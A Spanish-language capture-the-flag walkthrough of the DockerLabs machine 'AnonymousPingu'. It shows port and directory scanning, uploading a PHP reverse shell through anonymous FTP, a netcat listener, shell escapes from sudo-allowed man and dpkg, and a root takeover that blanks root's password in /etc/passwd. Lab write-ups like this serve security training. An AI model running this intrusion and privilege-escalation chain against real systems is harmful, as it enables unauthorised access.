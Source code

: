 ```yaml
---
title: AnonymousPingu - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Facil      | ElPinguinoDeMario | 


# Reconocimiento 
Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. Descubrimos que los puertos que se encuentran activos son el 21 (FTP) y el 80 (HTTP).
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/fbdcf75b-e25d-4d92-8797-3e558b2a92e6)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 21,80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/35d4dab8-0433-48d9-9943-52e4e2a36bfd)

## Exploración Web
Al acceder a la página web, observamos lo siguiente:

![image](https://github.com/user-attachments/assets/ede1f8d5-c313-4e69-94ee-aee4e813aa5e)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio. El siguiente comando fue ejecutado:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/7684d11b-a469-40f3-8254-b0d964ec0112)

Vemos que hay un directorio upload pero no hay nada dentro.

![image](https://github.com/user-attachments/assets/d2061512-4cf0-4b1a-90a6-0abaad99a259)

## FTP

Procedemos a explorar el servicio FTP, ya que hemos identificado anteriormente que el usuario `anonymous` está habilitado y que tenemos permisos de escritura en el directorio `upload`. 

**Nota:** Los usuarios `anonymous` no suelen tener contraseñas o son opcionales en muchos servidores FTP.

A continuación, intentamos conectarnos al servidor FTP utilizando el siguiente comando:
```bash
ftp 172.17.0.2
```
Al intentar acceder al servidor FTP con el usuario `anonymous` y sin contraseña, observamos que podemos entrar perfectamente. 

![image](https://github.com/user-attachments/assets/ea8254c0-879e-4ece-b542-3f19975c77a5)

## Intrusión en la Máquina

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

### Pasos para Cargar la Reverseshell

1. **Preparar la Reverseshell**: Creamos un archivo de reverseshell en nuestro sistema local utilizando el código disponible en la ruta mencionada anteriormente.
2. **Subir el Archivo**: Utilizamos el comando de FTP para subir el archivo al directorio `upload`.
3. **Ejecutar la Reverseshell**: Una vez que el archivo esté en el servidor, lo ejecutaremos para establecer la conexión.

![image](https://github.com/user-attachments/assets/c6b9c6c5-e334-466c-ac7c-931e21464118)

Nos ponemos a escuchar por netcat en mi caso por el 4444

```bash 
nc -lvnp 4444
```

Luego, accedemos a la ruta de la página web donde hemos cargado la reverseshell:

![image](https://github.com/user-attachments/assets/efce64bc-e77c-42cb-8b26-c651f630a409)

Y ya tendriamos acceso a la maquina.

![image](https://github.com/user-attachments/assets/bbc7b73c-09e9-4095-a526-e827fdead208)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

## Usuario pingu

Ya estamos dentro de la máquina. Si ejecutamos el comando `sudo -l`, vemos que podemos ejecutar `man` como `Pingu`. Para ello, debemos hacer lo siguiente:

![Interfaz de la herramienta](https://github.com/user-attachments/assets/cef8486b-9c3c-4905-90b8-1dc9d1c54986)

Esta herramienta tiene una sección al final que muestra `MORE`. Si en lugar de desplazarnos hacia abajo, escribimos `!/bin/bash`, se generará una shell con ese usuario.

```shell
sudo -u pingu /usr/bin/man find
```

![image](https://github.com/user-attachments/assets/7300b460-b586-4311-b862-5bd5df506bd4)

Si ahora ponemos `!/bin/bash`:

![image](https://github.com/user-attachments/assets/eb9e8678-2261-4e21-96bc-9a49f19abafc)

Vemos que hemos subido de usuario y ya estamos con el usuario `pingu`.

![Cambio de usuario](https://github.com/user-attachments/assets/0c3da884-f0fb-45df-9692-59312d0752ab)

## Usuario gladys

Vamos a volver a ejecutar el comando `sudo -l`.

![Comando sudo](https://github.com/user-attachments/assets/0cedf58f-0919-4d19-a6eb-c37df62b1d4b)

Observamos que podemos ejecutar `nmap` y `dpkg` como `gladys`. En mi caso, utilizaré `dpkg` y aplicaré el mismo método que antes con `man`. En mi caso, utilizaré `dpkg` y aplicaré el mismo método que antes con `man`.

```bash
sudo -u gladys /usr/bin/dpkg -l
```
Si ahora ponemos `!/bin/bash`:

![image](https://github.com/user-attachments/assets/7f86e264-8d5c-4fb9-8302-0177b78e7dbf)

Vemos que hemos subido de usuario y ya estamos con el usuario `gladys`.

![image](https://github.com/user-attachments/assets/0e482934-f8cd-4cd1-bede-abf6bd888fa6)


## Usuario root
Vamos a volver a ejecutar `sudo -l`.

![image](https://github.com/user-attachments/assets/fb5bbc2b-bd10-4091-bb4c-a9b168f0d487)

Observamos que podemos ejecutar `chown` como `root`. Para ello, procedemos de la siguiente manera:

Primero cambiamos los permisos de `/etc/passwd` para que nuestro usuario tenga permisos:
```bash
sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```
Dado que no podemos usar `nano` o `vim` porque no están en el sistema instalados, utilizaremos `sed` para que elimine la X que tiene root para que la contraseña no nos la pida.
```bash
sed 's/^root:[^:]*:/root::/' /etc/passwd > /etc/passwd1
```
Para finalizar copiamos el `/etc/passwd1` donde esta el original para que lo sobreescriba
```bash
cp /etc/passwd1 /etc/passwd
```
Ahora hacemos un `su root` y accederemos al usuario *root* sin proporcionar contraseña

![image](https://github.com/user-attachments/assets/45c469ca-e1f3-4c7a-8025-920b591e5324)


